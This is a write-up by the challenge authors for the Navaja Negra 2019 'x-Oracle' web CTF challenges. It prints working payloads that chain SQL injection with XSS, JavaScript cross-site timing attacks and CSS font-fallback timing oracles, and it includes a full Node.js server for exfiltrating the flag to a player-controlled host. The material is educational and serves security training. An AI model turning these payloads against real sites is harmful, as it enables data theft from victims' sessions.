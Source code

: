 # Writeup x-Oracle Challenges (Navaja Negra 2019 CTF)

> __Preface:__ Navaja Negra is a local security conference celebrated every year in Albacete (Spain). Traditionally we have been organizing small CTFs for it. These tasks are a series of web challenges for this year: https://nn9ed.ka0labs.org/.

The challenges are based on a vanilla SQL injection that must be exploited by a bot with admin role. The [source code](https://gist.github.com/cgvwzq/c78aa5fc228225a2779745f2705eeab5) is provided, so it is easy to spot the SQLi.

Complete source code: https://github.com/cgvwzq/ctf_tasks/tree/master/nn9ed

## x-Oracle-v0

The first challenge can be solved by chaining the SQL injection with a Blind XSS. The CSP configuration allows `unsafe-inline` and `img-src *`, so it is easy to force the bot to exploit the SQL injection and exfiltrate the flag to an external server:

```html
<script>fetch('http://x-oracle-v0.nn9ed.ka0labs.org/admin/search/x%27%20union%20select%20flag%20from%20challenge%23').then(_=>_.text()).then(_=>new Image().src='http://PLAYER_SERVER/?'+_)</script>
```

Easy Peasy, here's your flag: `nn9ed{y0u_b3tt3r_warmUp_your_w3b_j4king_sk1lls}`

## x-Oracle-v1

This challenges includes a patch for the previous bug:

```
< res.setHeader('Content-Security-Policy', "default-src 'self' 'unsafe-inline'; img-src *; style-src *; font-src *");
---
> res.setHeader('Content-Security-Policy', "default-src 'self'; img-src *; style-src * 'unsafe-inline'; font-src *");
```

With this stricter CSP we cannot inject <script> tags or run JavaScript, so things get a bit more complicated. However, we can still try to exploit a time-based SQLi.

While there are many ways to solve this challenge (any solution for x-Oracle-v2 would also work here), our intended solution exploited a cross-site timing attack.

First, we need to redirect the bot to a website controlled by us ---easily done with <meta http-equiv=refresh>--- because this action is not affected by the CSP policy. From there we can use any method for measuring the loading time of a cross-origin resource.

In our case we used iframes and the onload event to extract the flag character by character. Finally we simply exfiltrate the flag via an `<img>` request.

```html
<iframe name=f id=g></iframe> // The bot will load an URL with the payload
<script>
let host = "http://x-oracle-v1.nn9ed.ka0labs.org";
function gen(x) {
	x = escape(x.replace(/_/g, '\\_'));
	return `${host}/admin/search/x'union%20select(1)from%20challenge%20where%20flag%20like%20'${x}%25'and%201=sleep(0.1)%23`; 
}

function gen2(x) {
	x = escape(x);
	return `${host}/admin/search/x'union%20select(1)from%20challenge%20where%20flag='${x}'and%201=sleep(0.1)%23`;
}

async function query(word, end=false) { 
	let h = performance.now();
	f.location = (end ? gen2(word) : gen(word));
	await new Promise(r => {
		g.onload = r; 
	});
	let diff = performance.now() - h;
	return diff > 300;
}

let alphabet = '_abcdefghijklmnopqrstuvwxyz0123456789'.split('');
let postfix = '}'

async function run() {
	let prefix = 'nn9ed{';
	while (true) {
		let i = 0;
		for (i;i<alphabet.length;i++) {
			let c = alphabet[i];
			let t =  await query(prefix+c); // Check what chars returns TRUE or FALSE
			console.log(prefix, c, t);
			if (t) {
				console.log('FOUND!')
				prefix += c;
				break;
			}
		}
		if (i==alphabet.length) {
			console.log('missing chars');
			break;
		}
		let t = await query(prefix+'}', true);
		if (t) {
			prefix += '}';
			break;
		}
	}
	new Image().src = 'http://PLAYER_SERVER/?' + prefix; //Exfiltrate the flag
	console.log(prefix);
}

run();
</script>
```

The flag: `nn9ed{t1ming_att4cks_ar3_th3_best_att4cks}`

## x-Oracle-v2

Now cross-site timing attacks are mitigated by SameSite cookies (this was supposed to be a huge hint for the bug in v1):

```
< cookie: { secure: false }
---
> cookie: { secure: false, sameSite: 'strict' }
```

Again, CSP only allows imgs, styles and fonts. Fonts? Yep! Fonts!

Unfortunately, SameSite cookies mean that we can not exploit cross-site timing attacks anymore ---the admin's cookie will not be send on the request.

Instead, our intended solution uses "fonts"! This summer we spend some time discussing about how to measure time purely in CSS, and after some reading, we found out that CSS font urls have a fallback mechanism that could be abused for that. This approach has several limitations, but it seemed fun enough for a CTF task :)

Specifically we are interested in `font-display`, according to the [spec](https://drafts.csswg.org/css-fonts-4/#font-display-desc):

>...[font-display] determines how a font face is displayed, based on whether and when it is downloaded and ready to use"

It supports 5 options:

* `auto`: The display policy is user-agent-defined (most cases same as `block`)
* `block`: Gives the font face a short __block period__ (3s is recommended in most cases) and an infinite __swap period__.
* `swap`: Gives the font face an extremely small __block period__ (100ms or less is recommended in most cases) and an infinite __swap period__.
* `fallback`: Gives the font face an extremely small __block period__ (100ms or less is recommended in most cases) and a short __swap period__ (3s is recommended in most cases).
* `optional`: Gives the font face an extremely small __block period__ (100ms or less is recommended in most cases) and a 0s __swap period__.

And from the moment that the user-agent tries to download a font, the font-face starts a timer that will advance through 3 periods:

* __Block period__: if the font face is not loaded, any element attempting to use it must instead render with an invisible fallback font face. If the font face successfully loads during the block period, the font face is then used normally.
* __Swap period__: if the font face is not loaded, any element attempting to use it must instead render with a fallback font face. If the font face successfully loads during the swap period, the font face is then used normally.
* __Failure period__: if the font face is not yet loaded when this period starts, it’s marked as a failed load, causing normal font fallback. Otherwise, the font face is used normally.

In practice, we can expect the following scenario:

```css
@font-face {
    font-family: Leak;
    src: url(http://url-a/), url(http://url-b);
    font-display: optional;
}
div.leak {
    font-family: Leak;
}
```

Our font will try to load the first resource, since we are using `font-display: optional`, the block period has only 100ms to load the resource. If the requests fails during this time, the fallback font will be requested; otherwise, it will skip the swap period, mark the load as failed, and fallback to the normal font.

This means that if the first request takes too long to resolve, the second request is never done. Or in other words, we have our oracle in pure CSS!

From this point, is relatively easy to implement a tree search based on the time-based SQLi:

```css
@font-face {
    font-family: Leak;
    src:url(http://x-oracle-v2.nn9ed.ka0labs.org/admin/search/x%27union%20select%20if%28flag%20regexp%20%27nn9ed%7B%5B%5C_abcdel%5D.*%7D%27,0,sleep%280.1%29%29%20from%20challenge%20where%20flag%20like%27nn9ed%7B%25%27%23), url(http://PLAYER_SERVER/leak?pre=nn9ed%7B&range=%5C_abcdel);
    font-display: optional;
    unicode-range: U+005f,U+0061,U+0062,U+0063,U+0064,U+0065,U+006c;
}

@font-face {
    font-family: Leak;
    src:url(http://x-oracle-v2.nn9ed.ka0labs.org/admin/search/x%27union%20select%20if%28flag%20regexp%20%27nn9ed%7B%5Bfghijs%5D.*%7D%27,0,sleep%280.1%29%29%20from%20challenge%20where%20flag%20like%27nn9ed%7B%25%27%23), url(http://PLAYER_SERVER/leak?pre=nn9ed%7B&range=fghijs);
    font-display: optional;
    unicode-range: U+0066,U+0067,U+0068,U+0069,U+006a,U+0073;
}
div { font-family: Leak; }
```
When the admin visits a page with the following content, it will ping back with the subset that contains the first character:

```html
<div>_abcdefghijklmnopqrstuvwxyz</div>
<style>@import url(http://PLAYER_SERVER/)</style>
```

One drawback of this injection is that it is case insensitive, so we might need to refine it, but for illustration purposes is enough.

The following PoC uses recursive CSS import (for more details see [this](https://github.com/cgvwzq/css-scrollbar-attack/), [this](https://github.com/cgvwzq/css-scrollbar-attack/), or [this](https://medium.com/@d0nut/better-exfiltration-via-html-injection-31c72a2dae8b)) with the previous font fallback trick, to extract the flag in ~5s with a single visit of the admin:

```js
const http = require('http');
const url = require('url');
const port = 80;

const TARGET = "http://x-oraclev-2.nn9ed.ka0labs.org";
const HOSTNAME = `http://PLAYER_SERVER:${port}`;

const MAX_CON = 2;

Array.prototype.chunks = function(n) {
	let s = Math.floor(this.length / n);
    let ret = [], i;
	if (this.length <= n) {
		return this.map(e=>[e]);
	}
	for (i=0; i<s*n; i += s) {
		ret.push(this.slice(i,i+s));
    }
	for (i; i<this.length; i++) {
		ret[i%ret.length].push(this[i]);
    }
    return ret;
}

let nextResponse, pre, ranges, dic, c = 1;

const requestHandler = async (request, response) => {
    let req = url.parse(request.url, url);
    log('\treq: %s', request.url);
	response.setHeader('Access-Control-Allow-Origin','*');
    switch (req.pathname) {
        case "/css":
			pre = decodeURIComponent(req.query.pre);
			dic = decodeURIComponent(req.query.dic).split('');
			ranges = dic.chunks(MAX_CON);
			genResponse(response, pre, ranges);
            break;
		case "/next":
			console.log('delay next response');
			nextResponse = response;
			break;
		case "/leak":
			console.log(req.query.pre, req.query.range);
			if (parseInt(req.query.c) < c) {
				response.end();
				break;
			}
			if (req.query.range.length == 1) {
				pre += decodeURIComponent(req.query.range);
				ranges = dic.chunks(MAX_CON);
				c += 1;
				console.log('got char!');
			} else {
				ranges = decodeURIComponent(req.query.range).split('').chunks(MAX_CON);
			}
			if (nextResponse) {
				genResponse(nextResponse, pre, ranges);
			} else {
				console.log('shit...');
			}
            response.end();
			break;
        default:
            response.end();
    }
}

function cssEscape(i) {
	return escape(i);
}

const genResponse = (response, pre, ranges) => {
	let css = '@import url(' + HOSTNAME + '/next?' + Math.random() + ');\n\n' +
	ranges.map(e => ('@font-face { font-family: Leak;\n' +
		'src:url(' + TARGET + '/admin/search/x%27union%20select%20if%28cast%28flag%20as%20binary%29%20regexp%20%27' + cssEscape(pre) + '%5B' + cssEscape(e.join('')) + '%5D.*%7D%27,0,sleep%280.2%29%29%20from%20challenge%20where%20flag%20like%27nn9ed%7B%25%27%23), ' +
		'url(' + HOSTNAME + '/leak?pre=' + cssEscape(pre) + '&range=' + cssEscape(e.join('')) + '&c=' + c + '); font-display: optional; unicode-range: ' + e.map(x => ('U+' + ('0000'+x.charCodeAt(0).toString(16)).substr(-4))).join(','))+';}').join('\n') +
		'\n' + 'div' + ' { font-family: Leak; }';
    response.writeHead(200, { 'Content-Type': 'text/css'});
    response.write(css);
    response.end();

}

const server = http.createServer(requestHandler)

server.listen(port, (err) => {
    if (err) {
        return console.log('[-] Error: something bad happened', err);
    }
    console.log('[+] Server is listening on %d', port);
})

function log() {
    console.log.apply(console, arguments);
}
```

The code is a bit unestable ---the browsers send some requests whose reason I still need to figure out---, but if we ignore them (thanks to the `c` param), in the worst case a few retries give us the flag (in lower case): `nn9ed{css_fallback_rulez}`.

After some manual adjustment: `nn9ed{cSS_fallback_rulez}`.

Interestingly, we can do better than a binary search by splitting the alphabet in more fonts. However, this number is limited by the browser's maximum number of connections per hosts (6 in most modern browsers). Using more than that will make the browser serialize fruther requests and the timing measurements will become useless.

## Unexpected solutions

One of the best perks of organizing a CTF is to see other people resolving your tasks in a different way than you intended. And this occasion wasn't an exception :)

We were aware that some sources of contention or serialization during parsing or resource loading could be used to solve this tasks. For a 2006 example, see Jeremiah Grossman's [non-JS port scanner](https://blog.jeremiahgrossman.com/2006/11/browser-port-scanning-without.html). Only 13 years ago... Feeling old? T_T

But nevertheless we got a few very interesting submissions. All of them solving both v1 and v2 at once.

### Font `unicode-range` + Alternative text

The first solution comes from the hand of [@terjanq](https://twitter.com/terjanq), who essentially destroyed the CTF solving all the tasks in just a few hours. Kudos!

He leverages a known `unicode-range` [trick](https://mksben.l0.cm/2015/10/css-based-attack-abusing-unicode-range.html) in a very smart way, to detect whether the alternate text of an `object` element has been rendered (on error) or not (on load). With that he is able to exploit an error based SQLi instead of a time-based. For more details see his [PoC](https://gist.github.com/terjanq/33bbb8828839994c848c3b76c1ac67b1).

Similarly, [Borja Martinez](https://twitter.com/Qm9yamFN) ---who heroically managed to solve the challenge at 6.20 AM--- used the `<img alt="A" src="http://victim/">` instead of `<object data="http://victim/">A</object>`.

In this case, the alternative text of the image is always rendered, but the browser only does that once the resource is resolved. By requesting a controlled resource before (time_start), and calculating the difference with the font load request (time_end), he obtains the delay of the loaded resource w/o JavaScript.

### `<img>` stalling `<meta http-equiv=refresh>`
The second person to solve the challenge was [Luan Herrera](https://twitter.com/lbherrera_), who used the fact that `<meta http-equiv=refresh>` will only take place when the previous images have finished loading.

Like Borja, he first requests a controlled resource (time_start), sets the stalling `<img>` tag, and the `<meta>` refresh tag pointing to his server to obtain the time delay.

Great work.

## Thanks for reading!
by [@cgvwzq](https://twitter.com/cgvwzq) and [@TheXC3LL](https://twitter.com/TheXC3LL)
